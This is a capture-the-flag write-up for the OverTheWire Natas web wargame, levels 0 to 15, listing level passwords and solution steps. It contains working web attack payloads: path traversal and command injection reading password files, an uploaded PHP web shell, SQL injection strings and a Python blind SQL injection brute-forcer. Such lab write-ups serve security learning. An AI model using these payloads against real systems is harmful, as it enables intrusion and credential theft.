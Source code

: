 ﻿**OVERTHEWIRE:NATAS**

 
**LEVEL 0 -> Level 15 Writeups**


> **https://overthewire.org/wargames/natas/**



**Natas-0**

\*Found the password for natas1 in the source page.
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
**Natas-1**

\*Found the password by accessing the page source from developer tools in chrome.
<!--The password for natas2 is h4ubbcXrWqs To7GGnnUMLppXb0ogfBZ7-->

**Natas-2**

\*Got the password in users.txt file which is present inside the files directory of the website 
Password:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

**Natas-3**

\*The hidden directory was identified by using /robots.txt.
Password:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

**Natas-4:**

\*Changed the default referrer by using the referrer controller.
Password:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

**Natas-5**

\*Login credentials were saved in browsers as cookies so changed the cookie and got the access.
Password:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

**Natas-6:**

\*Checked the php code and found the secret code by traversing by adding includes/secret.inc
Secret:FOEIUWGHFEEUHOFUOIU
Password:jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

**Natas-7**
\* Traversed through the /etc files by: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas\_webpass/natas8
Password:a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

**Natas-8**

\*Decoded the encoded secret by using this function:
function decodeSecret($encoded) 
{ return base64\_decode(strrev(hex2bin($encoded)));
}
PasswordSda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

**Natas-9**

\*The vulnerability here there is passthru the key I entered  ; cat /etc/natas\_webpass/natas10 # to access the file and display the password.

Password:D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

**Natas-10**
Here there is a filter applied so I used . /etc/natas\_webpass/natas11 # here .\* searches for the files that have the path mentioned.
Password:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

**Natas-11**

\*After going through the source code we need to set the showpass to yes in order to view the pass.
\*XOR encrypt has a key by which it encrypts so to know the key I used a online code which I got while surfing google
\*Changed the cookie to MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
Password:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

**Natas-12**

\*Created a .php file with the following command in it 
<?php echo exec("cat /etc/natas\_webpass/natas14"); ?>
Used burp suite and changed the file that opened from .jpg to .php and accessed the natas14 file for the pass
Password:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

**Natas-13**

\*Learned that the website identifies the jpg by the first four bits of hexadecimal code.
\*Used hexeditor to change the first 4 bytes and then uploaded the file.
\*Intercepted the upload using burpsuite and then changed the input to php.
Password:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

**Natas-14:**

\*Learnt about SQL injection and then accessed it using 
username=1" OR “TEST” = “TEST”&password=”1" OR “TEST” = “TEST
which makes it true and shows the password.

**Natas-15:**

\*From source code we can know that the pass is stored in users relation which has username and password as columns.
\*So used SQL injection by running an py code.

—---------------—-------------------------------------------------------------------------------------

#!/usr/bin/env python
\# -\* coding: utf-8 --


import requests
 import re
 from string import ascii\_lowercase, ascii\_uppercase, digits
characters = ascii\_lowercase + ascii\_uppercase + digits
print(characters)

username = 'natas15'
password = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
url = 'http://natas15.natas.labs.overthewire.org/'
session = requests.Session()
seen\_password = list()

while True:
     for ch in characters:
        print("trying with pass", "".join(seen\_password) + ch)
        response = session.post(url, data={"username": 'natas16" AND BINARY password LIKE \'' + "".join(seen\_password) + ch + '%\' #'}, auth=(username, password))
        content = response.text
        if 'user exists' in content:
            seen\_password.append(ch)
              break


—------------------------------------------------------------------------------------------------------------

Password:RD7iZrd5gATjj9PkPEuaOlfEjHqj32V

